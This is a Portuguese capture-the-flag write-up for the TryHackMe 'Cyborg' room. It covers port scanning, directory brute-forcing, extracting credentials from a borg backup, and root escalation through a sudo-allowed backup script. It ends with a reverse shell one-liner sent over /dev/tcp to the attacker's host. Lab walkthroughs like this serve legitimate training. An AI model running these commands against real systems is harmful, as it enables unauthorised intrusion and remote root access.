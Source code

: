 https://tryhackme.com/room/cyborgt8

## Recon

Usando **NMAP**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu
80/tcp open  http    Apache httpd 2.4.18
```

Fazendo uma bruteforce de diretórios com o **gobuster** os seguintes caminhos foram encontrados

- /admin -> website
- /etc -> existe credenciais: music_archive:squidward

Em `/admin` é possível baixar um backup feita com a ferramenta `borg`, rodando os comando abaixo para ver o backup consegui extrair as credenciais de ssh `alex:S3cretP@s3`em `/home/alex/Documents/note.txt`. (A senha é squidward).

```sh
cd home/field/dev/final_archive
borg list .
borg extract --list .::music_archive
```

## Privesc

Existe um arquivo `/etc/mp3backups/backup.sh` que permite rodar como root sem a necessidade de inserir a senha. Lendo este arquivo, existe um opção **-c** que executa comandos, com isso basta executar o código abaixo:

```sh
cd /etc/mp3backups
sudo -u root ./backup.sh -c su root
sh -i >& /dev/tcp/IP/4444 0>&1 # mesmo com root, os comandos não geravam output, então, me conectando com minha máquina passando o shell, consegui ver os outputs
```

